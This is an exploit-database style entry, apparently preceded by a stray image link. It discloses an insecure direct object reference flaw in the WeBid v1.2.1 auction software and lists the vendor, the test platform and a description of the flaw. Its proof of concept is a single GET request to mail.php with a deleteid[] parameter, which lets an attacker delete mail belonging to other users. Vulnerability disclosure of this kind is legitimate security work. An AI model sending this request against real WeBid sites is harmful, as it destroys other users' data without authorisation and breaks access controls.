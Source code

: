 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete mail that is owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /mail.php?deleteid[]=1(CHANGE HERE) HTTP/1.1
```